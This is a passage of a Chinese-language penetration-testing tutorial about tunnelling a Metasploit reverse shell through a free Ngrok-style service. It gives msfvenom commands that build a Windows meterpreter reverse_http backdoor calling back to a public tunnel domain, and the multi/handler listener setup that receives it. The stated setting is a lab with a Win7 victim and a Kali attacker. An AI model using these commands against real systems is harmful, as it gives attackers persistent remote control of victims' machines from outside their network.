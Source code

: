 #### 2、下载相应版本客户端

linux查看系统位数—`uname -m`

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-3.png)

![70-4](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-4.png)

#### 3、开通隧道

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-5.png)

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-6.png)

#### 4、配置本地端口

（虚拟机kali的）

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-7.png)

### 实验开始

协议：http 本地端口：192.168.80.137:4444

测试：内网win7 执行后门—免费主机处理—内网 kali 监听—内网 kali 接受器

```
./sunny clientid 隧道号
msfvenom -p windows/meterpreter/reverse_http lhost=xiaodisec.free.idcfengye.com lport=80 -f exe -o test.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.80.137
set lport 4444
exploit
```



#### 1、将Ngrok客户端传到 kali上，启动

```
./sunny clientid 隧道号
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-8.png)

#### 2、msf生成后门

```
msfvenom -p windows/meterpreter/reverse_http lhost=liandy.free.idcfengye.com lport=80 -f exe -o test.exe
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-9.png)
